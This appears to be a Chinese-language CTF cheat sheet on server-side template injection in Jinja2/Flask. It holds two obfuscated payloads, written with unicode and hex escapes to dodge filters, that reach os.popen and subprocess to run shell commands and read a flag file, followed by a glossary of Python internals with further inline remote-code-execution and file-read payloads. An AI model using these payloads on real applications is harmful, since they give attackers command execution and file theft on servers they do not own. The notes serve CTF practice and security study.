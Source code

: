 # SSTI
#SSTI 

[寻找类文章](https://xz.aliyun.com/t/11090#toc-15)

```shell
{%print lipsum|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u0067\u0065\u0074")("os")|attr("\u0070\u006f\u0070\u0065\u006e")("cat /flllaag?txt")|attr("\u0072\u0065\u0061\u0064")()%}
```

```shell
//base64 flllaag.txt
{% print []|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(415)("\x62\x61\x73\x65\x36\x34\x20\x66\x6c\x6c\x6c\x61\x61\x67\x2e\x74\x78\x74",shell=True,stdout=-1)|attr("\x63\x6f\x6d\x6d\x75\x6e\x69\x63\x61\x74\x65")() %}
```

```python

```


```
__class__
  查看对象所在的类
__mro__
  查看继承关系和调用顺序，返回元组
__base__
  返回基类
__bases__
  返回基类元组
__subclasses__()
  返回子类列表
__init__
  调用初始化函数，可以用来跳到__globals__
__globals__
  返回函数所在的全局命名空间所定义的全局变量，返回字典
__builtins__
  返回内建内建名称空间字典
__dic__
  返回类的静态函数、类函数、普通函数、全局变量以及一些内置的属性
__getattribute__()
  实例、类、函数都具有的魔术方法。事实上，在实例化的对象进行.操作的时候（形如:a.xxx/a.xxx() 都会自动去调用此方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__()
  调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
__builtins__
  内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。__builtins__与__builtin__的区别就不放了，百度都有。
__import__
  动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()
  返回描写这个对象的字符串，可以理解成就是打印出来。
url_for
  flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app
get_flashed_messages
  flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app
lipsum
  flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}} {{cycler.__init__.__globals__.os.popen('ls').read()}}
current_app
  应用上下文，一个全局变量
request
  可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
```